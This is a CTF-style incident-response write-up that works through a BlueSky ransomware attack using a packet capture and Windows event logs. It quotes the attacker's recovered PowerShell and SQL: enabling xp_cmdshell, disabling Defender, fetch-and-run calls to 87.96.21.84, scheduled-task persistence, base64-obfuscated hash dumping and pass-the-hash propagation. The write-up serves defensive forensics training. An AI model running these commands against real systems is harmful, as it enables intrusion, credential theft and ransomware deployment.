## Challenge Scenerio

A high-profile corporation managing critical data and services across diverse industries reported a significant security incident. Their network was impacted by a suspected ransomware attack: key files were encrypted, services were disrupted, and early indicators pointed to a sophisticated, multi-stage threat actor. Two primary evidence files were provided for analysis:

- **`BlueSkyRansomware.pcap`** — Network packet capture
- **`BlueSkyRansomware.evtx`** — Windows Event Log

---

## Q1 — Identifying the Source IP Responsible for Port Scanning Activity

**Answer: `87.96.21.84`**

### Analysis

Opening the PCAP file in Wireshark, the first step was to examine IPv4 conversation statistics under **Statistics → Conversations → IPv4**.



Two external IP addresses dominated the traffic volume:

- `87.96.21.84`
- `87.96.21.81`

To pinpoint which address was conducting port scanning, the packet-level behavior of each was examined. A TCP SYN scan — the default and most common scan type in Nmap — leaves a distinctive three-step pattern in packet captures:

1. **SYN** — The attacker sends a SYN packet to a target port to initiate the TCP handshake.
2. **SYN/ACK** — If the port is open, the victim responds with SYN/ACK.
3. **RST** — The attacker immediately sends a RST (reset) packet to abort the connection, intentionally leaving the handshake incomplete.

This RST behavior is the telltale signature of a SYN scan: the attacker never completes the full three-way handshake, thereby reducing detection risk while still mapping open ports. Filtering for this RST pattern in Wireshark confirmed that `87.96.21.84` was the originating source of the scanning activity.



---

## Q2 — Identifying the Targeted Account Username

**Answer: `sa`**

### Analysis

To determine which account the attacker targeted, the focus shifted to identifying which protocols carried authentication data. Inspecting the **Protocol Hierarchy** (`Statistics → Protocol Hierarchy`) revealed the presence of **Tabular Data Stream (TDS)**, which is the application-layer protocol used by Microsoft SQL Server for client-server communication.



Applying a `tds` display filter in Wireshark and inspecting the resulting packets revealed **TDS7 Login** messages — the authentication handshake between an SQL client and the SQL Server. Within the packet details of these login frames, both the username and password fields are transmitted in plaintext (since the connection was not encrypted), exposing the credentials used during the brute-force or credential-stuffing attempt.



The targeted username was `sa`, which stands for **System Administrator** — the built-in, highest-privilege account in Microsoft SQL Server. Targeting `sa` indicates the attacker was specifically seeking administrative-level database access.

---

## Q3 — Confirming the Password Discovered by the Attacker

**Answer: `cyb3rd3f3nd3r$`**

### Analysis

Continuing the inspection of the TDS7 Login packets identified in Q2, the password field within the same authentication frame revealed the credential that successfully authenticated the attacker to the SQL Server. The password `cyb3rd3f3nd3r$` was observed in a packet where the login response from the server was affirmative, confirming that this password was the one accepted by the SQL Server.

This suggests the attacker either conducted a successful brute-force attack or had obtained this credential through prior reconnaissance or credential leakage (e.g., from a data breach database).

---

## Q4 — Identifying the Setting Enabled by the Attacker for Remote Command Execution

**Answer: `xp_cmdshell`**

### Analysis

After successfully authenticating to the SQL Server, the attacker proceeded to reconfigure the server to enable operating system-level command execution. By following the TDS TCP streams in Wireshark, the SQL batch commands transmitted by the attacker were visible in plaintext:



**Step 1 — Enable Advanced Configuration Options:**
```sql
EXEC sp_configure 'show advanced options', 1; RECONFIGURE
```
This command unlocks access to advanced SQL Server configuration parameters that are hidden by default. Without this step, the `xp_cmdshell` option cannot be modified.

**Step 2 — Enable `xp_cmdshell`:**
```sql
EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
```
`xp_cmdshell` is a powerful extended stored procedure that allows SQL Server to execute arbitrary Windows Command Prompt commands directly from within T-SQL queries. Once enabled, the attacker gained the ability to interact with the underlying operating system — download files, execute binaries, create tasks, and pivot further across the network — all through the SQL Server process.

This is a well-documented living-off-the-land technique: by abusing a legitimate SQL Server feature, the attacker avoided introducing foreign binaries at this stage of the attack.


---

## Q5 — Identifying the Process Targeted for C2 Injection

**Answer: `winlogon.exe`**

### Analysis

With `xp_cmdshell` enabled, the attacker gained access to a Windows Command Prompt running under the SQL Server process. The next phase involved privilege escalation through **process injection**. To analyze host-level events, the `BlueSkyRansomware.evtx` Windows Event Log file was parsed using `evtx_dump`, which exported all events to a structured JSON format suitable for filtering.

The investigation focused on **Event ID 400 (PowerShell Engine Start)**, which is generated every time a new PowerShell session is initiated. These events are critical in attack scenarios because Command-and-Control (C2) frameworks and droppers frequently abuse PowerShell during the initial access and post-exploitation phases due to its deep integration with the Windows operating system.

Filtering for Event ID 400 entries revealed PowerShell activity consistent with process injection targeting `winlogon.exe` — a critical Windows authentication process that runs under the **SYSTEM** account, the highest privilege level available on a Windows system.



Injecting a C2 implant into `winlogon.exe` provides the attacker with three key advantages:

- **Privilege Escalation:** Execution inherits SYSTEM-level privileges without requiring a UAC bypass.
- **Stealth:** Malicious code executes hidden inside a legitimate, always-running system process, making it invisible to naive process-listing tools.
- **Persistence:** `winlogon.exe` is essential to Windows authentication and cannot be killed without crashing the system, ensuring the implant remains resident.

---

## Q6 — Identifying the URL of the First Downloaded File

**Answer: `http://87.96.21.84/checking.ps1`**

### Analysis

Following the privilege escalation phase, the attacker used the `xp_cmdshell`-enabled SQL Server to issue a download command via the elevated PowerShell session. Returning to the PCAP and filtering for **HTTP protocol** traffic, a series of HTTP GET requests originating from the victim machine to the attacker's server (`87.96.21.84`) were visible.

The first GET request retrieved a PowerShell script named `checking.ps1`.



Following the HTTP stream for this packet revealed the complete request URL:



```
http://87.96.21.84/checking.ps1
```

This script served as the initial post-exploitation staging payload, designed to assess the victim environment before deploying further tooling.

---

## Q7 — Identifying the Group SID Checked by the Malicious Script

**Answer: `S-1-5-32-544`**

### Analysis

By following the HTTP stream for `checking.ps1` in Wireshark, the full source code of the script was recovered. Near the beginning of the script, the following PowerShell statement was observed:

```powershell
$priv = [bool](([System.Security.Principal.WindowsIdentity]::GetCurrent()).groups -match "S-1-5-32-544")
```

Breaking this statement down:

- `[System.Security.Principal.WindowsIdentity]::GetCurrent()` — Retrieves the Windows identity of the account currently running the PowerShell process (in this case, SYSTEM, due to the injection into `winlogon.exe`).
- `.groups` — Enumerates all Security Identifier (SID) groups that the current identity belongs to.
- `-match "S-1-5-32-544"` — Checks whether the well-known SID `S-1-5-32-544` is present in the group membership list.

**SID `S-1-5-32-544`** is the well-known Security Identifier for the **Built-in Administrators group** on any Windows system. By checking for this SID, the script was verifying whether the previous privilege escalation attempt was successful — confirming that the process running the script has full administrative rights before proceeding with the more destructive phases of the attack.

---

## Q8 — Registry Keys Used to Disable Windows Defender

**Answer: `DisableAntiSpyware, DisableRoutinelyTakingAction, DisableRealtimeMonitoring, SubmitSamplesConsent, SpynetReporting`**

### Analysis

Further inspection of `checking.ps1` revealed a function named `Disable-WindowsDefender`. This function implements a systematic, multi-layered defense evasion strategy to completely neutralize Windows Defender before subsequent payloads are deployed.

#### Real-Time Protection Suppression

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true -ErrorAction SilentlyContinue
```
This command instructs Windows Defender to stop scanning files as they are accessed, opened, or executed — effectively blinding it to any malware running on the system in real time.

#### Exclusion Path Manipulation

```powershell
Set-MpPreference -ExclusionPath "C:\ProgramData\Oracle" -ErrorAction SilentlyContinue
Set-MpPreference -ExclusionPath "C:\ProgramData\Oracle\Java" -ErrorAction SilentlyContinue
Set-MpPreference -ExclusionPath "C:\Windows" -ErrorAction SilentlyContinue
```
These commands add three directories to Defender's exclusion list — paths within which Defender will never scan for malicious files. Notably, adding `C:\Windows` to the exclusion list effectively excludes the entire Windows operating system directory from antivirus scrutiny, a deeply aggressive evasion move that creates an enormous blind spot for the defender.

#### Registry Key Manipulation

```powershell
$defenderRegistryPath = "HKLM:\SOFTWARE\Microsoft\Windows Defender"
$defenderRegistryKeys = @(
    "DisableAntiSpyware",
    "DisableRoutinelyTakingAction",
    "DisableRealtimeMonitoring",
    "SubmitSamplesConsent",
    "SpynetReporting"
)
```

Each registry key targets a specific Windows Defender capability:

| Registry Key | Effect |
|---|---|
| `DisableAntiSpyware` | Completely disables Windows Defender anti-spyware engine |
| `DisableRoutinelyTakingAction` | Prevents Defender from automatically remediating detected threats |
| `DisableRealtimeMonitoring` | Disables the real-time file system monitoring engine |
| `SubmitSamplesConsent` | Prevents suspicious samples from being sent to Microsoft for analysis |
| `SpynetReporting` | Disables cloud-based protection (Microsoft's SpyNet / MAPS service) |

Together, these five registry modifications ensure that Windows Defender is fully neutralized at both the process and persistence layers — even if the service is restarted, the registry settings will keep it in a disabled state.

---

## Q9 — URL of the Second Downloaded File

**Answer: `http://87.96.21.84/del.ps1`**

### Analysis

After disabling Windows Defender, `checking.ps1` executed a function called `CleanerEtc`, which was responsible for downloading and persisting a second-stage payload:

```powershell
Function CleanerEtc {
    $WebClient = New-Object System.Net.WebClient
    $WebClient.DownloadFile("http://87.96.21.84/del.ps1", "C:\ProgramData\del.ps1") | Out-Null
    C:\Windows\System32\schtasks.exe /f /tn "\Microsoft\Windows\MUI\LPupdate" /tr "C:\Windows\System32\cmd.exe /c powershell -ExecutionPolicy Bypass -File C:\ProgramData\del.ps1" /ru SYSTEM /sc HOURLY /mo 4 /create | Out-Null
    Invoke-Expression ((New-Object System.Net.WebClient).DownloadString('http://87.96.21.84/ichigo-lite.ps1'))
}
```

The function first downloads `del.ps1` from the attacker's C2 server and saves it to `C:\ProgramData\del.ps1`. This file is then registered as a scheduled task for persistence (see Q10), and finally a third payload, `ichigo-lite.ps1`, is downloaded and executed entirely in-memory using `Invoke-Expression`.

---

## Q10 — Full Name of the Persistence Scheduled Task

**Answer: `\Microsoft\Windows\MUI\LPupdate`**

### Analysis

From the `CleanerEtc` function identified in Q9, the following `schtasks.exe` command was extracted:

```powershell
C:\Windows\System32\schtasks.exe /f /tn "\Microsoft\Windows\MUI\LPupdate" /tr "C:\Windows\System32\cmd.exe /c powershell -ExecutionPolicy Bypass -File C:\ProgramData\del.ps1" /ru SYSTEM /sc HOURLY /mo 4 /create
```

Breaking down the key parameters:

| Parameter | Value | Meaning |
|---|---|---|
| `/tn` | `\Microsoft\Windows\MUI\LPupdate` | Task name — designed to mimic a legitimate Windows language pack update task |
| `/tr` | `cmd.exe /c powershell -ExecutionPolicy Bypass -File C:\ProgramData\del.ps1` | The command executed — runs `del.ps1` with execution policy bypass |
| `/ru` | `SYSTEM` | Runs the task as the SYSTEM account — maximum privileges |
| `/sc HOURLY /mo 4` | Every 4 hours | Task fires every four hours, providing persistent re-execution |
| `/f` | Force | Overwrites any existing task with the same name |

The task name `\Microsoft\Windows\MUI\LPupdate` is deliberately crafted to blend in with legitimate Windows scheduled tasks stored under `Microsoft\Windows\MUI`, making it appear to be a language pack (MUI = Multilingual User Interface) update task. This is a common masquerading technique.


---

## Q11 — MITRE ID of the Main Tactic of the Second Malicious File

**Answer: `TA0005` — Defense Evasion**

### Analysis

The second-stage script (`del.ps1`) was analyzed for its primary behavioral objectives. Its dominant behavior centered on systematically dismantling the host's security posture before executing further payloads. Key actions included:

- Disabling Windows Defender real-time protection via `Set-MpPreference`
- Adding critical system directories (including `C:\Windows`) to Defender exclusion lists
- Executing payloads in-memory using `Invoke-Expression` with `-ExecutionPolicy Bypass` to circumvent PowerShell's execution policy restrictions
- Using Base64-encoded commands to obfuscate the true intent of the instructions from log analysis tools

All of these actions are characteristic of **Defense Evasion (TA0005)** — the MITRE tactic that encompasses an adversary's efforts to avoid detection throughout the course of an intrusion.


---

## Q12 — PowerShell Script Used for Credential Dumping

**Answer: `Invoke-PowerDump.ps1`**

### Analysis

Credential dumping is a post-exploitation technique in which an attacker extracts stored authentication material — usernames, password hashes, Kerberos tickets — from a compromised system. This material can then be used for lateral movement, offline cracking, or impersonation attacks.

Returning to the PCAP and examining HTTP GET requests, a request for `Invoke-PowerDump.ps1` was observed originating from the victim host:



```
GET /Invoke-PowerDump.ps1 HTTP/1.1
Host: 87.96.21.84
```

`Invoke-PowerDump` is a PowerShell implementation of credential extraction from the Windows **Security Account Manager (SAM)** registry hive. Its operational steps are as follows:

1. **Privilege Escalation via Token Impersonation:** The script enables `SeDebugPrivilege` on the current process and then impersonates the LSASS (Local Security Authority Subsystem Service) process token to acquire SYSTEM-level access — a requirement for reading protected SAM data.
2. **SAM Hive Access:** It queries the `HKLM\SAM` and `HKLM\SYSTEM` registry hives to extract the encrypted NTLM password hashes for all local user accounts.
3. **Hash Decryption:** The extracted hashes are decrypted using a combination of cryptographic routines (RC4, DES, MD5) using the SYSKEY boot key stored in the SYSTEM hive.
4. **Output:** The decrypted hashes are returned in the format `username:RID:LMhash:NTLMhash`, ready for pass-the-hash attacks or offline cracking.


---

## Q13 — Name of the File Containing the Dumped Credentials

**Answer: `hashes.txt`**

### Analysis

Within `ichigo-lite.ps1`, two Base64-encoded PowerShell commands were embedded to obfuscate the credential dumping workflow:

```powershell
$EncodedCommand="KE5ldy1PYmplY3QgU3lzdGVtLk5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCdodHRwOi8vODcuOTYuMjEuODQvSW52b2tlLVBvd2VyRHVtcC5wczEnKSB8IEludm9rZS1FeHByZXNzaW9uDQoNCg=="
Invoke-Expression -Command ([System.Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($EncodedCommand)))

$EncodedExec = "SW52b2tlLVBvd2VyRHVtcCB8IE91dC1GaWxlIC1GaWxlUGF0aCAiQzpcUHJvZ3JhbURhdGFcaGFzaGVzLnR4dCI="
Invoke-Expression -Command ([System.Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($EncodedExec)))
```

Decoding the second Base64 string (`$EncodedExec`) using CyberChef reveals:



```powershell
Invoke-PowerDump | Out-File -FilePath "C:\ProgramData\hashes.txt"
```

This confirms that the output of the `Invoke-PowerDump` credential extraction routine was piped directly to a file saved at `C:\ProgramData\hashes.txt`. The use of Base64 encoding was deliberate — it prevents casual log inspection tools from identifying the command as credential-theft activity.


---

## Q14 — Name of the File Containing Discovered Hosts for Lateral Movement

**Answer: `extracted_hosts.txt`**

### Analysis

After dumping credentials, `ichigo-lite.ps1` prepared for lateral movement by retrieving a list of target hosts from the attacker's C2 server:

```powershell
$hostsContent = Invoke-WebRequest -Uri "http://87.96.21.84/extracted_hosts.txt" | Select-Object -ExpandProperty Content -ErrorAction Stop
```

The script then combined the dumped NTLM hashes from `hashes.txt` with the retrieved host list and used `Invoke-SMBExec` to propagate across the network via a **pass-the-hash** technique:

```powershell
if ($usernames.Count -gt 0 -and $passwordHashes.Count -gt 0) {
    if ($hostsContent) {
        foreach ($targetHost in $hostsContent -split "`n") {
            if (![string]::IsNullOrWhiteSpace($targetHost)) {
                $username = $usernames[0]
                $password = $passwordHashes[0]
                Invoke-SMBExec -Target $targetHost -Username $username -Hash $password
            }
        }
    } 
}
```

In a **pass-the-hash** attack, the attacker does not need to crack the NTLM hash into a plaintext password. Instead, the raw hash is used directly to authenticate to other systems via Windows SMB (Server Message Block) protocol, since NTLM authentication accepts the hash itself as proof of identity. This allows the attacker to silently propagate across the entire network using the credentials of a single compromised account.


---

## Q15 — Name of the Ransom Note File

**Answer: `# DECRYPT FILES BLUESKY #`**

### Analysis

The final payload in the attack chain was a ransomware binary named `javaw.exe`, downloaded via a function in `ichigo-lite.ps1`:

```powershell
$blueUri = "http://87.96.21.84/javaw.exe"
$downloadDestination = "C:\ProgramData\javaw.exe"
$downloadSuccess = Download-FileFromURL -url $blueUri -destinationPath $downloadDestination
```

The binary was named `javaw.exe` to impersonate the legitimate Java background process (`javaw.exe` is a standard Windows executable for running Java applications), making it appear benign to an administrator performing a cursory process review.

The binary was extracted from the PCAP using Wireshark's **Export Objects → HTTP** feature, and subsequently submitted to **any.run** for sandbox behavioral analysis. The sandbox immediately flagged the binary as belonging to the **BlueSky ransomware** family.



Behavioral analysis revealed the following on-disk and file system actions:

- Target documents across the system were encrypted and renamed with a `.bluesky` extension appended to the original filename.
- A ransom note file was created in `C:\Users\admin\3D Objects\` with the filename:



  ```
  # DECRYPT FILES BLUESKY #.txt
  ```

- The note contained decryption instructions.



> **Security Note:** Behavioral analysis of malware samples should **never** be performed on a production machine or any system containing real credentials. Always use an isolated virtual machine with no network connectivity to other systems, and preferably use a dedicated sandbox service (such as any.run, Cuckoo, or FlareVM) in a controlled environment.

---

## Q16 — Name of the Ransomware Family

**Answer: `BlueSky`**

### Analysis

Uploading the extracted `javaw.exe` binary to the any.run sandbox returned an immediate family classification: **BlueSky Ransomware**.



The BlueSky ransomware family is a relatively recent strain known for fast multi-threaded encryption, the use of legitimate-looking process names for evasion, and propagation through SMB using stolen credentials — all of which were observed throughout this attack chain.

---

## Attack Timeline

| Timestamp (Relative) | Phase | Action |
|---|---|---|
| T+0 | Reconnaissance | Attacker at `87.96.21.84` performs TCP SYN port scan against the victim network |
| T+1 | Initial Access | Attacker identifies exposed Microsoft SQL Server; conducts credential brute-force against the `sa` account |
| T+2 | Initial Access | Password `cyb3rd3f3nd3r$` successfully authenticated; attacker gains access to SQL Server as `sa` |
| T+3 | Execution | Attacker enables `xp_cmdshell` via SQL batch commands, gaining Windows CMD access through the SQL Server process |
| T+4 | Privilege Escalation | Attacker uses PowerShell (launched via `xp_cmdshell`) to inject C2 implant into `winlogon.exe`, obtaining SYSTEM privileges |
| T+5 | Command & Control | Attacker downloads first payload: `checking.ps1` via HTTP GET from `87.96.21.84` |
| T+6 | Discovery | `checking.ps1` checks for local administrator group membership via SID `S-1-5-32-544` to verify privilege escalation success |
| T+7 | Defense Evasion | `checking.ps1` disables Windows Defender via `Set-MpPreference` and registry key manipulation across five Defender registry values |
